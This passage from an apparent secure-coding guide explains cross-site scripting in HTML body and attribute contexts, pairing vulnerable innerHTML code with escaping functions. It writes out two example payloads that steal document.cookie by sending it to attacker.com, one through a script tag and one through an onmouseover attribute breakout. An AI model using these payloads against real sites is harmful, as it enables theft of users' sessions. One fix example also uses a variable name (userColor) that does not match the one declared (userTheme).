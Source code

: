 Example vulnerability:

```javascript
const username = getUserInput();
element.innerHTML = `<div>Hello, ${username}!</div>`;
```

If the user input is the following string:
```
<script>fetch('https://attacker.com/steal?c='+document.cookie)</script>
```

Then the browser will render this HTML:
```html
<div>Hello, <script>fetch('https://attacker.com/steal?c='+document.cookie)</script>!</div>
```

To prevent XSS in this context, we need to escape special characters that could be interpreted as HTML or [HTML entities](https://www.w3schools.com/html/html_entities.asp):
```javascript
function escapeHtml(unsafe) {
  return unsafe
    .replace(/&/g, '&amp;')    // Must be first to avoid double-escaping
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;');
}

// Usage
element.innerHTML = `<div>Hello, ${escapeHtml(username)}!</div>`;
```

### HTML Attribute Context

This is when data appears within HTML attributes. The challenge here is preventing attackers from breaking out of the attribute value and injecting new attributes or tags.

Example vulnerability:
```javascript
const userTheme = getUserInput();
element.innerHTML = `<div class="${userTheme}">Hello</div>`;
```

If the user input is the following string:
```
dark" onmouseover="fetch('https://attacker.com/steal?c='+document.cookie)
```

Then the browser will render this HTML:

```html
<div class="dark" onmouseover="fetch('https://attacker.com/steal?c='+document.cookie)">Hello</div>
```

Proper handling requires both escaping and always using quotes:
```javascript
function escapeHtmlAttribute(unsafe) {
  return unsafe
    .replace(/&/g, '&amp;')
    .replace(/'/g, '&apos;')
    .replace(/"/g, '&quot;');
}

// Usage - always quote attributes!
element.innerHTML = `<div class="${escapeHtmlAttribute(userColor)}">Hello</div>`;
```
